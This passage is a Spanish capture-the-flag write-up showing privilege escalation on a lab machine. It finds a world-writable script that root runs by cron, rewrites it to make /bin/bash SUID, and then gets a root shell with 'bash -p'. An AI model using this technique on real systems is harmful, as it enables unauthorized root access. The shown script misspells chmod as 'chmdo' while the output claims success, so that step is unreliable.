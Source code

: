 ```
-rw-r--r-- 1 za_1 za_1   23 Jul 26 09:23 user.txt
-rw------- 1 za_1 za_1  991 Jul 26 07:30 .viminfo
```

Ejecuto **pspy64** y veo que el usuario root está ejecutando un script dentro de "/home/za_1/.root/" mediante una tarea **cron**.

```
za_1@za_1:~$ ./pspy64 
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     
[...]
2023/09/05 13:55:16 CMD: UID=1000  PID=1922   | ./pspy64 
2023/09/05 13:55:16 CMD: UID=0     PID=1908   | /bin/bash /home/za_1/.root/back.sh 
2023/09/05 13:55:16 CMD: UID=0     PID=1906   | /bin/bash /home/za_1/.root/back.sh 
2023/09/05 13:55:16 CMD: UID=0     PID=1905   | /bin/sh -c /bin/bash /home/za_1/.root/back.sh 
2023/09/05 13:55:16 CMD: UID=0     PID=1904   | /usr/sbin/CRON -f 
2023/09/05 13:55:16 CMD: UID=1000  PID=1883   | -bash 
2023/09/05 13:55:16 CMD: UID=1000  PID=1882   | sshd: za_1@pts/1     
2023/09/05 13:55:16 CMD: UID=0     PID=1847   | /bin/bash /home/za_1/.root/back.sh 
2023/09/05 13:55:16 CMD: UID=0     PID=1842   | /bin/bash /home/za_1/.root/back.sh 
2023/09/05 13:55:16 CMD: UID=0     PID=1841   | /bin/sh -c /bin/bash /home/za_1/.root/back.sh
[...]
```

Además, tengo permisos para editar el script.

```
za_1@za_1:~$ ls -la .root/back.sh 
-rwxrwxrwx 1 root root 32 Sep  5 13:56 .root/back.sh
```

Lo modifico de la siguiente manera para que cuando se ejecute, **/bin/bash** obtenga permisos **SUID**.

```
za_1@za_1:~$ cat .root/back.sh 
#!/bin/bash

chmdo +s /bin/bash
```

Después de esperar un poco a que se ejecute la tarea, se puede comprobar que ya puedo ejecutar **bash** como el usuario root.

```
za_1@za_1:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr 18  2022 /bin/bash
za_1@za_1:~$ bash -p
bash-4.4# whoami
root
bash-4.4# :)
```

Muchas gracias a **Zacarx007** por esta máquina.

